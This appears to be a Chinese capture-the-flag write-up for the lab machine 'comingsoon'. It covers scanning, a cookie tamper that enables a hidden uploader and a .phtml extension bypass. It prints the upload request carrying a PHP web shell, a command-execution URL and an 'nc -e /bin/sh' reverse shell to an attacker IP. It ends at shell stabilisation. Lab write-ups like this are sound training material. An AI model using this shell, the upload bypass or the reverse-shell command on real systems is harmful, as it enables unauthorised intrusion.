 刚开始没有IP
单用户修改密码也需要输入用户密码，不能改
/boot/grub/grub.cfg配置文件下
```c

```
看了wp，才知道root用户密码ToyStory3，进去后也没有dhclient命令获取ip
只能换一种方式，编辑vim /etc/network/interface
[Linux(Debian)网卡设置\_debian auto eth0-CSDN博客](https://blog.csdn.net/willhuo/article/details/79610260)

|   |   |   |
|---|---|---|
|comingsoon|easy|前端分析、文件上传绕过、提示信息利用、shadow 爆破、hydra 使用、|

# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.133/24
┌──(kali㉿kali)-[~]
└─$ fping -aqg 192.168.44.0/24
```
# 服务探测
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.137
```
只有22和80
# 目录爆破
```C
http://192.168.44.137/notes.txt
Dave,

Last few jobs to do...

Set ssh to use keys only (passphrase same as the password)

Just need to sort the images out:
resize and scp them or using the built-in image uploader.

Test the backups and delete anything not needed.

Apply an https certificate.

Cheers,

Webdev

翻译

戴夫，

最后几项工作要做...

将 ssh 设置为仅使用密钥（密码与密码相同）

只需要对图像进行排序：
调整大小并对其进行 scp 或使用内置图像上传器。

测试备份并删除不需要的任何内容。

申请https证书。

干杯，

网络开发者


http://192.168.44.137/index.php
右键检查源码看到提示

 Upload images link if EnableUploader set 
 翻译
 如果设置了 EnableUploader，则上传图像链接

```


检查当前页面的cookie信息，发现base64编码的东西
```css
RW5hYmxlVXBsb2FkZXIK 
ZmFsc2UK
解码后
EnableUploader
false
```

综上所述，把false改成true编码后`dHJ1ZQ==`，就会出现文件上传的入口
http://192.168.44.137/5df03f95b4ff4f4b5dabe53a5a1e15d7.php
burp抓包,这里后端使用黑名单限制了php后缀的上传，尝试使用phtml后缀被解析成功。

```
POST /5df03f95b4ff4f4b5dabe53a5a1e15d7.php HTTP/1.1
Host: 192.168.44.137
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30594177056923721121592264423
Content-Length: 379
Origin: http://192.168.44.137
Connection: close
Referer: http://192.168.44.137/5df03f95b4ff4f4b5dabe53a5a1e15d7.php
Cookie: RW5hYmxlVXBsb2FkZXIK=dHJ1ZQ==
Upgrade-Insecure-Requests: 1

-----------------------------30594177056923721121592264423
Content-Disposition: form-data; name="fileToUpload"; filename="1.phtml"
Content-Type: image/png
<?php system($_GET['cmd']);?>
-----------------------------30594177056923721121592264423
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------30594177056923721121592264423--
```

命令执行
```c
http://192.168.44.137/assets/img/1.phtml?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

# nc反弹shell
```css
http://192.168.44.137/assets/img/1.phtml?cmd=nc -e /bin/sh 192.168.44.128 9001
```

```c
python3 -c 'import pty;pty.spawn("/bin/bash")'
或者
script /dev/null -c bash
export TERM=xterm
Ctrl+z快捷键
stty raw -echo;fg
reset
```
目前看啥都没权限
